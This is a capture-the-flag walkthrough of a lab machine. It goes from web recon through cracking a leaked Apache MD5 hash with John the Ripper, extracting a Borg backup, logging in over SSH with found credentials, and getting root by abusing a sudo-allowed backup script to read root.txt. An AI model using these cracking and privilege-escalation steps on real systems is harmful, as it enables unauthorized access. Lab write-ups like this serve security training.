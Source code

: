 Not much information about the machine, so we get right into it.

## Recon

We start with Nmap and recon as always and we get: 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:69:89:87:98:79 (Unknown)

```

Not much but enough. Next we enumarate with `gobuster dir -u http://[ip]/ -w /usr/share/wordlists/dirb/common.txt` and we get
```
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/admin (Status: 301)
/etc (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
```

We can access admin and etc so let's do that!

## Access

On /admin there is a sandwich menu with Home/Albums/Admins/Archive as options.
On home there is not much, but general html.
On archive we are redirected to the /admin page.
On /admins.html there is :
```
############################################
############################################
[Yesterday at 4.32pm from Josh]
Are we all going to watch the football game at the weekend??
############################################
############################################
[Yesterday at 4.33pm from Adam]
Yeah Yeah mate absolutely hope they win!
############################################
############################################
[Yesterday at 4.35pm from Josh]
See you there then mate!
############################################
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
############################################
```

So we get a couple of names (potentialy usernames),  and the last message is very useful.


So now lets go to the /ect page.
We see the /squid directory the message was talking about, and inside there are two files.
passwd with :
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
and squid.conf with:
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

On the passwd file we have a #hashes  version of the password. So we are going to use [[John The Ripper]].
First we are going to identify the type of hash with hash-id.py program and get
```
Possible Hashs:
[+] MD5(APR)
```

Then we save the hashed password on a txt file and the begin searching with John :
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
and get <font color=red> squidward  </font> for password.


Going back to the /admin page we have a Download button on Archive .
Downloading we get a archive.tar folder. It contains a README file with:
```
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

After reading some stuff there I found this
`borg extract home/field/dev/final_archive::music_archive`
I installed borgbackup and the extracted the files, and then finally I run the command above. 
It asked for passphrase and I used <font color=red> squidward  </font> and got the results!

Searching through the folders I found a note.txt file with:
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
So immediately I tryied to ssh it.
`ssh alex@[ip]` and used <font color=red> S3cretP@s3 </font> for password and it worked!
There was my flag! But I have one more left.

So lets see what rights we have with `sudo -l`
```
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

```

I see that we have rights for backup.sh file. We can't write so we will add rights with
`chmod +w /etc/mp3backups/backup.sh`

Now we can use this file to write commands as a root like
`sudo /etc/mp3backups/backup.sh -c whoami`
so to find the flag I typed:
`sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt' ` 
and got it!